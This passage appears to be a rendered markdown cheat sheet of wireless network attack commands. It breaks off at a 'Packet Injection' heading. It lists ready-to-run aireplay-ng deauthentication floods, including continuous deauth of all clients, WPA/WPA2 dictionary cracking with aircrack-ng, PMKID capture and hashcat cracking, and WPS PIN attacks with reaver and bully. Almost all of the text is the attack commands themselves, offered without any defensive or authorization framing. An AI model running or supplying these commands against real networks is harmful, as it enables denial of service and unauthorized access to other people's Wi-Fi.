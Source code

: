 ### Deauthentication Attack
```bash
# Deauth specific client
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon

# Deauth all clients
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 wlan0mon

# Continuous deauth
sudo aireplay-ng -0 0 -a 00:11:22:33:44:55 wlan0mon
```

### WPA/WPA2 Cracking
```bash
# Basic dictionary attack
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa_capture-01.cap

# Specify BSSID
sudo aircrack-ng -b 00:11:22:33:44:55 -w wordlist.txt wpa_capture*.cap

# Use multiple wordlists
sudo aircrack-ng -w wordlist1.txt -w wordlist2.txt wpa_capture*.cap
```

## Advanced WPA Attacks

### PMKID Attack
```bash
# Capture PMKID (no clients needed)
sudo airodump-ng -p pmkid -b 00:11:22:33:44:55 wlan0mon

# Convert to hashcat format
hcxpcapngtool -o pmkid.hc22000 -E pmkid.22000 capture.cap

# Attack with hashcat
hashcat -m 22000 pmkid.hc22000 wordlist.txt
```

### WPS Attacks
```bash
# Identify WPS-enabled networks
sudo wash -i wlan0mon

# Reaver attack
sudo reaver -i wlan0mon -b 00:11:22:33:44:55 -vv

# Bully attack (alternative)
sudo bully -b 00:11:22:33:44:55 -i wlan0mon -c 6 -v 3
```

## Packet Injection

